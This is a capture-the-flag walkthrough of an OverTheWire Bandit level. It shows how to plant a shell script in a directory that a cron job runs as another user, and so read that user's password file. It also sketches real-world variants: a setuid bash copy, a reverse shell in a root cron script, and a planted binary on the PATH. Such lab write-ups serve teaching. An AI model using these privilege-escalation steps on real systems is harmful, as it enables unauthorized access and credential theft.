

## Introduction

This is where the cron trilogy graduates from *reading* to *writing* — from harvesting what a scheduled job leaks, to making a scheduled job run **your** code as someone else. It's the first level that asks you to author a shell script, and it's a genuine privilege-escalation exercise: a cron job running as `bandit24` executes any script you place in a directory it watches, so you drop a script that reads `bandit24`'s password for you. "Writable directory invoked by a privileged scheduled task" is a real, recurring privesc primitive on production Linux.

The skill being taught is exploiting a **writable, cron-invoked path** for code execution as another user. The lesson is the boundary between *who can write* a location and *who runs* what's written there.

## Official Challenge Objective

> **A program is running automatically at regular intervals from `cron`. Look in `/etc/cron.d/` for the configuration and see what command is being executed.**
>
> *NOTE: This level requires you to create your own first shell script. This is a very big step and you should be proud of yourself when you beat this level!*
>
> *NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around.*

**In plain English:** a cron job running as `bandit24` runs every script it finds in a watched directory that is owned by `bandit23` (you), then deletes it. Write a script that copies `bandit24`'s password somewhere you can read, drop it in the directory, and wait for it to run *as `bandit24`*.

## Skills Covered

- Reading cron config and the script it invokes
- Writing an executable shell script
- Ownership, the execute bit, and `chmod`
- `mktemp -d` and reasoning about permissions across users
- Exploiting a writable, scheduled-task-invoked directory for privesc
- Timing an attack against a per-minute scheduler

## My Approach

The cron script `cd`s into `/var/spool/bandit24/foo`, loops over every entry, and for each one owned by `bandit23` and being a regular file, runs it with `timeout -s 9 60 ./$i` then `rm -rf`s it. So I put a file owned by me into that directory; it runs **as `bandit24`** and can read `/etc/bandit_pass/bandit24`. The subtlety: the script writes its output as `bandit24`, not me, so the output directory must be writable by `bandit24` — I make a scratch dir with `mktemp -d` and `chmod -R 777`. Keep a copy of the script (it's deleted after running), drop it in, wait out the minute, read the result.

## Step-by-Step Walkthrough

### Command

```bash
cat /etc/cron.d/cronjob_bandit24
```

### Explanation

Runs as `bandit24`, executes `/usr/bin/cronjob_bandit24.sh` every minute:

```
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

### Why It Matters

The run-as user `bandit24` is the privilege your dropped script inherits.

---

### Command

```bash
cat /usr/bin/cronjob_bandit24.sh
```

### Explanation

In essence:

```bash
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
for i in * .*; do
    if [ "$i" != "." -a "$i" != ".." ]; then
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

It works in `/var/spool/bandit24/foo`, executes any entry owned by `bandit23` (with a 60s SIGKILL timeout), and deletes it afterward.

### Why It Matters

A directory **you can write to** is **executed by a more privileged user** (`bandit24`), gated only by "owned by `bandit23`" — which you trivially satisfy. That ownership check is meant to be a control; it's an invitation.

---

### Command

```bash
TMPD=$(mktemp -d)
chmod -R 777 "$TMPD"
echo "$TMPD"
```

### Explanation

`mktemp -d` makes a unique dir under `/tmp` owned by you (default `700`). `chmod -R 777` lets **any** user — including `bandit24` — write into it.

### Why It Matters

The script runs **as `bandit24`**, so it must be able to write the output. A `bandit23`-only directory would make the copy fail silently.

> [!IMPORTANT]
> Always reason about *which identity performs each action*. The script is authored by `bandit23` but **executed by `bandit24`** — every file it touches uses `bandit24`'s permissions.

---

### Command

```bash
cat > "$TMPD/script.sh" <<EOF
#!/bin/bash
cat /etc/bandit_pass/bandit24 > $TMPD/bandit24.pass
EOF
chmod +x "$TMPD/script.sh"
```

### Explanation

The payload reads `/etc/bandit_pass/bandit24` (readable only as `bandit24`/root) and writes it into our world-writable scratch dir. `chmod +x` is needed because the cron loop runs `./$i`. The heredoc is unquoted (`<<EOF`) so `$TMPD` expands now, baking the absolute path in — important, since cron runs the script with CWD `/var/spool/bandit24/foo`.

### Why It Matters

Your first weaponized script: minimal, single-purpose, written with a clear sense of *whose* privileges run it and *where* output can land.

---

### Command

```bash
cp "$TMPD/script.sh" /var/spool/bandit24/foo/
```

### Explanation

Drop the script (owned by `bandit23`, executable) into the watched directory so it qualifies to run. Keep the original — the cron job `rm -f`s the copy (Note 2).

### Why It Matters

This is the exploitation step: planting code in a privileged, scheduled execution path.

---

### Command

```bash
sleep $((65 - $(date +%S))); cat "$TMPD/bandit24.pass"
```

### Explanation

Sleep until just past the next minute so the cron job has fired, then read the result:

```
[REDACTED]
```

### Why It Matters

You achieved code execution as another user and exfiltrated their secret to a place you control. Scheduled-task exploits are inherently "plant and wait."

## Deep Dive: Cyber Security Concept

**Privilege escalation via a writable, scheduled-task-invoked path.**

A common road to root: a process running as a privileged identity executes content from a location a *less* privileged identity can modify. The privileged context may be cron, a systemd timer, a setuid wrapper, or a sudo-allowed script; the writable thing may be the script, a scanned directory, a `PATH` entry, a sourced config, or a drop folder.

The failure is a mismatch between two principals — **the writer** (who can place the content, here `bandit23`) and **the executor** (whose privileges run it, here `bandit24`). When the writer is less trusted than the executor, the writer gains the executor's privileges. The `owner == bandit23` gate restricts nothing because the attacker *is* `bandit23`.



> [!IMPORTANT]
> The kernel boundary is sound — you genuinely cannot read `bandit24`'s password file. The *misconfiguration* is letting a less-trusted user supply code to a more-trusted execution context.

## Offensive Security Perspective

This generalizes far beyond Bandit. If a `root` cron job runs a script writable by your user, you append a reverse shell or `cp /bin/bash /tmp/rootbash; chmod +s` and wait. If a privileged script calls `tar` without an absolute path and you control an early `PATH` entry, you plant a malicious `tar`. `linpeas` flags world-writable files referenced by cron in red, and `pspy` reveals short-lived cron-spawned commands without needing read access to the config. The methodology is constant: find privileged scheduled execution, find a writable input, supply a minimal payload, ensure output is reachable, wait.

## Common Beginner Mistakes

- **Output dir not writable by `bandit24`** — the #1 mistake; the copy fails silently. `chmod 777` the scratch dir.
- **Forgetting `chmod +x`** — the loop runs `./$i`.
- **Not keeping a copy** — the script is `rm -f`'d after running.
- **Relative output path** — cron's CWD is `/var/spool/bandit24/foo`; use the absolute `$TMPD` path.
- **Reading too early** — wait past the next minute boundary.

## Key Takeaways

- A privileged scheduled task executing writable content is a privesc hole.
- The decisive question is *who writes* vs *who executes*.
- Your payload runs **as the executor**, so output must land where the executor can write and you can read.
- Scheduled-task exploits are "plant and wait"; mind timing and auto-deletion.

## How This Helps Build Cyber Security Expertise

- **Linux privesc:** a canonical OSCP/HTB/real-world pattern — "writable + scheduled/privileged execution."
- **Red-team craft:** authoring tight, identity-aware payloads is a foundational skill.
- **Exploit development:** reasoning about which principal executes your code, and where its output can land, is core to weaponizing any local privesc primitive.

## Additional Reading

- [`man mktemp`](https://man7.org/linux/man-pages/man1/mktemp.1.html), [`man stat`](https://man7.org/linux/man-pages/man1/stat.1.html), [`man timeout`](https://man7.org/linux/man-pages/man1/timeout.1.html)
- [GTFOBins](https://gtfobins.github.io/)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [MITRE ATT&CK — T1053.003: Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)
- [pspy — unprivileged process snooping](https://github.com/DominicBreuker/pspy)

## Personal Reflection

This one is, hands down, my favourite of the cron trilogy — I genuinely enjoyed it. The previous two levels were satisfying in a "spot the leak" way, but they were ultimately about *reading* something someone else left behind. This level flipped that: for the first time I wasn't harvesting a mistake, I was *causing* a privileged process to run my own code. Writing that first little script, dropping it in, and sitting through that nervous ~60-second wait before `cat`-ing the output — and seeing the password actually appear — was a real "oh, this is what privilege escalation *feels* like" moment.

The detail that made it click was the world-writable output directory. My instinct was to write into a normal folder of mine, and reasoning through *why* that fails — because `bandit24`, not me, does the writing — made the writer-vs-executor distinction concrete instead of abstract. That single insight has paid off in every privesc box since. If you hit this level, slow down and savour it; it's where you stop being a reader of other people's bugs and start being an operator.


---

## Connect with the Author

Written by **Himangshu Pan** — offensive security researcher.

- **GitHub:** [@0xSh3ru](https://github.com/0xSh3ru)
- **LinkedIn:** [in/0xsh3ru](https://www.linkedin.com/in/0xsh3ru/)

*If this walkthrough helped, follow along on GitHub and connect on LinkedIn — questions and corrections are always welcome.*
